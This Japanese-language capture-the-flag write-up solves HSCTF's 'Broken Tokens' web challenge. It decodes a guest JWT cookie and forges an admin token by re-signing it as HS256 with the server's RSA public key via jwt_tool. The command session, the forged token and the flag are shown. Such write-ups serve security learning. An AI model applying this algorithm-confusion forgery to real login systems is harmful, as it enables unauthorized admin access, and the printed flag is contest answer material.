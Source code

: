 # Broken Tokens:Web Exploitation:100pts
I made a login page, is it really secure?  
[https://broken-tokens.web.hsctf.com/](https://broken-tokens.web.hsctf.com)  
Note: If you receive an "Internal Server Error" (HTTP Status Code 500), that means that your cookie is incorrect.  

# Solution
アクセスするとログインフォームとpublickey.pemがある。  
Web Portal Login  
[site.png](site/site.png)  
何も入力せずログインするとguestとなる。  
ところでcookieに以下のような値が入っていた。  
```text
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJhdXRoIjoiZ3Vlc3QifQ.e3UX6vGuTGHWouov4s5HuKn6B5zbe0ZjxwHCB_OQlX_TcntJuj89x0RDi8gQi88TMoXSFN-qnFUQxillB_nD5ErrVZKL8HI5Ah_iQBX1xfu097H2xT3LAhDEceq4HDEQY-iC4TVSxMGM0AS_ItsVLBIrxk8tapcANvCW_KnO3mEFwfQOD64YHtapSZJ-kKjdN19lgdI_g-2nNI83P6TlgLtZ8vo1BB1zt_8b4UECSiPb67YCsrCYIIsABq5UyxSwgUpZsM6oxW0k1c4NbaUTnUWURG2qWDVw56svRQETU3YjO59AMj67n9r9Y9NJ9FBlpHQ60Ck-mfL5JcmFE9sgVw
```
JWTだ。  
[JSON Web Tokens - jwt.io](https://jwt.io)で中身を見ると以下のようであった。  
HEADER:ALGORITHM & TOKEN TYPE  
```json
{
  "typ": "JWT",
  "alg": "RS256"
}
```
PAYLOAD:DATA   
```json
{
  "auth": "guest"
}
```
adminとすればいいようだ。  
[The JSON Web Token Toolkit](https://github.com/ticarpi/jwt_tool)を使う。  
Tamper with JWT data (multiple signing options)でよい。  
一部の出力は省略する。  
```bash
$ ls
LICENSE  README.md  jwt_tool.py  publickey.pem
$ python jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJhdXRoIjoiZ3Vlc3QifQ.e3UX6vGuTGHWouov4s5HuKn6B5zbe0ZjxwHCB_OQlX_TcntJuj89x0RDi8gQi88TMoXSFN-qnFUQxillB_nD5ErrVZKL8HI5Ah_iQBX1xfu097H2xT3LAhDEceq4HDEQY-iC4TVSxMGM0AS_ItsVLBIrxk8tapcANvCW_KnO3mEFwfQOD64YHtapSZJ-kKjdN19lgdI_g-2nNI83P6TlgLtZ8vo1BB1zt_8b4UECSiPb67YCsrCYIIsABq5UyxSwgUpZsM6oxW0k1c4NbaUTnUWURG2qWDVw56svRQETU3YjO59AMj67n9r9Y9NJ9FBlpHQ60Ck-mfL5JcmFE9sgVw
> 1
> 0
> 1
> admin
> 0
> 5
> publickey.pem
> 1

Your new forged token:
[+] URL safe: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoiYWRtaW4ifQ.MfoiS9XkQHMOw2Y6uQJrw0gM2NUfGYM-1Sz-SzKvad4
[+] Standard: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoiYWRtaW4ifQ.MfoiS9XkQHMOw2Y6uQJrw0gM2NUfGYM+1Sz+SzKvad4
```
改竄できた以下のJWTをセットするとflagが得られる。  
```text
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoiYWRtaW4ifQ.MfoiS9XkQHMOw2Y6uQJrw0gM2NUfGYM+1Sz+SzKvad4
```
flag  
[flag.png](site/flag.png)  

## flag{1n53cur3_tok3n5_5474212}